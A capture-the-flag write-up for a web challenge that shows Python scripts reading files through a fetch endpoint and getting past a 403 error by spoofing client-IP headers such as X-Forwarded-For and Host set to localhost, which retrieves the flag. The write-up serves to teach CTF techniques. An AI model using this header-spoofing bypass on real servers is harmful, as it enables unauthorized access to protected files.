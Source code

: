 # README

## Description
```
Read me if you can!! 
```

## Writeup

Visiting the website the website we see an input field asking for a file to read. <br/>
For this purpose I wrote a script for efficiency. <br/>
```py
import requests

base_URL = 'http://66.228.53.87:8989/'

file = "text.txt"

req = requests.get(f'{base_URL}fetch?file={file}')

print(req.text)
```

Executing the script we get a nromal response. <br/>
```sh
kali@kali python3 solve.py
{
  "result": "Yes! You can read files! Dont ask for hint its ezz!!"
}
```

Trying to read `flag.txt` results in an error. <br/>
```sh
kali@kali python3 solve.py
{
  "result": "403 Access Denied"
}
```

To bypass the `403` error I used different `headers` from [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses). <br/>
```py
import requests

base_URL = 'http://66.228.53.87:8989/'

file_path = "flag.txt"

# headers to bypass 403 Access Denied error
headers = {
    'X-Originating-IP': '127.0.0.1',
    'X-Forwarded-For': '127.0.0.1',
    'X-Forwarded': '127.0.0.1',
    'Forwarded-For': '127.0.0.1',
    'X-Remote-IP': '127.0.0.1',
    'X-Remote-Addr': '127.0.0.1',
    'X-ProxyUser-Ip': '127.0.0.1',
    'X-Original-URL': '127.0.0.1',
    'Client-IP': '127.0.0.1',
    'True-Client-IP': '127.0.0.1',
    'Cluster-Client-IP': '127.0.0.1',
    'X-ProxyUser-Ip': '127.0.0.1',
    'Host': 'localhost'
}

req = requests.get(f'{base_URL}fetch?file={file_path}', headers=headers)

print(req.text)
```

Executing the script with headers gets us the flag. <br/>
```sh
kali@kali python3 solve.py
{
  "result":"KCTF{kud05w3lld0n3!}"
}
```

This concludes the writeup.
